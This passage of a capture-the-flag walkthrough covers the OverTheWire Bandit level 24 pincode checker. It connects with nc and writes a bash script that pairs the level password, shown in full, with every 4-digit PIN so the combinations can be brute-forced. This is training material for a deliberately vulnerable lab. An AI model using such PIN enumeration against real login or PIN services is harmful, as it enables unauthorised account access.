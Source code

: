 ## Solution

We start by connecting to port `30002` using `nc` and seeing what it does.

```
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0001
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0002
Wrong! Please enter the correct current password and pincode. Try again.
^C
```

We could manually work our way through all 10,000 possiblities, but we could also write a script to do that for us.

We first get a working directory and create a file for our script, `script.sh`.

```
bandit24@bandit:~$ mktemp -d
/tmp/tmp.OI7GpstwZ5
bandit24@bandit:~$ cd /tmp/tmp.OI7GpstwZ5
bandit24@bandit:/tmp/tmp.OI7GpstwZ5$ nano script.sh
```

Then we write our script, appending the possible passwords to `passwords.txt`. To get a range of numbers for the `for` loop, the syntax is `{0..9999}`, but that only produces `1, 2, 3, ...` instead of the 4-digit numbers we want. For that, the syntax is `{0000..9999}`.

```bash
#!/bin/bash

password="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"

for i in {0000..9999}
do
    echo $password $i >> passwords.txt
done
```

We run the script and are denied as it didn't have execute permissions. This is easily changed with `chmod`.

```
bandit24@bandit:/tmp/tmp.OI7GpstwZ5$ ./script.sh
-bash: ./script.sh: Permission denied
bandit24@bandit:/tmp/tmp.OI7GpstwZ5$ ls -l
total 4
-rw-rw-r-- 1 bandit24 bandit24 131 Jul 22 10:11 script.sh
bandit24@bandit:/tmp/tmp.OI7GpstwZ5$ chmod 700 script.sh
bandit24@bandit:/tmp/tmp.OI7GpstwZ5$ ./script.sh
bandit24@bandit:/tmp/tmp.OI7GpstwZ5$ ls
passwords.txt  script.sh
bandit24@bandit:/tmp/tmp.OI7GpstwZ5$ head passwords.txt
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0001
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0002
[...]
```
